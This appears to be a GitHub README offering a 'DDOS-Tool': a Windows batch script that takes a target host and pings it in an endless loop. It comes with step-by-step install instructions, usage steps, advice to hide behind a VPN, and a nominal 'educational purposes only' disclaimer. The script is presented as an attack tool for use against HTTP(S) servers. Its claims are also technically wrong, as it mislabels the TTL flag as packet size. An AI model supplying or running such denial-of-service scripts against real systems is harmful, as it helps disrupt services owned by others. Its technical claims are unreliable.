 # DDOS-Tool
Anonymous DDOS-Tool





# About
  
 A script to Attack http(s) servers                                                
 
make sure u have a vpn installed                

how to install a vpn here: https://youtu.be/te8KE71ndso



# Screenshot
![Unbenannt](https://user-images.githubusercontent.com/97392345/153496914-2f9daae4-6c52-42c6-83b3-5df5f23ee946.PNG)


# Installation

 1) Copy the folllowing code to youre Notepad:
 
 @echo off
 
mode 67,16

title DDOS Attack by MR Jack

color 0a

cls

echo.
echo ÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄ

echo DDOS With Batchfile

echo ÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄ

echo.

set /p x=Server-Target:

echo.

echo ÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄ

ping %x%

echo ÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄ

@ping.exe 127.0.0.1 -n 5 -w 1000 > nul

goto Next

:Next

echo.

echo.

echo.

set /p m=ip Host:

echo.

set /p n=Packet Size:

echo.

:DDOS

color 0c

echo Attacking Server %m%

ping %m% -i %n% -t >nul

goto DDOS


2. when u are in the notepad dont forget to remove the Spaces of the code otherwise it wont work

3. its a batch file so save it as whateveruwant.bat
# Usage 


1.  enter the server target 

3.  it will automatically ping the Host. As shown in the Screenshot below:

![ok](https://user-images.githubusercontent.com/97392345/153502726-2b3df918-cdad-4388-84ab-5b08477c6ad1.PNG)
3. Now enter the ip . (u got it from the ping)

4. Now enter how many Threads/Packets u want to send to the server

Enjoy

# Disclaimer  
im not responsible for any Damage caused with this Tool. use it only for educational purposes only.  

